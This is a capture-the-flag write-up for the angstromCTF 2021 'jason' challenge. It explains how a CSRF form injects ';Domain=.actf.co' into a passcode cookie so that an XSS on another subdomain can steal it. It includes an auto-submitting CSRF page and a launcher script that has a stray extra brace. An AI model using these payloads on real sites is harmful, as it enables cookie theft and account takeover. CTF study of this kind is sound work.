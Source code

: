 This challenge was running on `https://jason.2021.chall.actf.co`. And when the cookie was being set, the domain for it, by default is set to the domain recieving the cookie. In this case `https://jason.2021.chall.actf.co`. We aren't allowed to set other domains other than the recieving one, but... we can set cookies for all subdomains of the particular domain. I.e, in this case, by adding `;Domain:.actf.co`, we can set the passcode cookie across all `.actf.co` domains. 

We don't have xss in this challenge, but, if we had any on one of the `.actf.co` domains, we can exfiltrate the cookie. 

There were two more client side challenges in this CTF - Reaction.py, Nomnom _(we won't be using nomnom as the payload works only on FireFox)_ and they ran on.... .actf.co subdomains \o/

Writeup for `reaction.py` ->  TBD


The flow to solve this challenge is: 

Setup xss payload in reaction.py challenge  (This is done on our end before sending link to admin) -> <br />
CSRF to add `;Domain:.actf.co` on payload  (Now admin's passcode would be accessible across all .actf.co domains) -> <br />
Login to your account that has the xss payload in reaction.py

<br />

### Payloads

```html
<!DOCTYPE html>
<html>
    <head>
        <title>
            go boom
        </title>
        <meta name="referrer" content="no-referrer">
    </head>
    <body>
        <script>
            async function exploit() {
                window.open("/csrf_to_setcookie.html");
                window.open("https://reactionpy.2021.chall.actf.co/register")
                window.open('/csrf_to_login_reactpy.html');
                }
            }      
            exploit();
        </script>
    </body>
</html>

<!-- index.html -->
```

<br />

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta name="referrer" content="no-referrer">
    <title>Set Cookie domain</title>
</head>
<body>
    <form action="https://jason.2021.chall.actf.co/passcode" id="csrf-form" method="POST">
        <input name="passcode" value=";Domain=.actf.co">
    </form>
    <script>document.getElementById("csrf-form").submit()</script>
</body>
</html>
```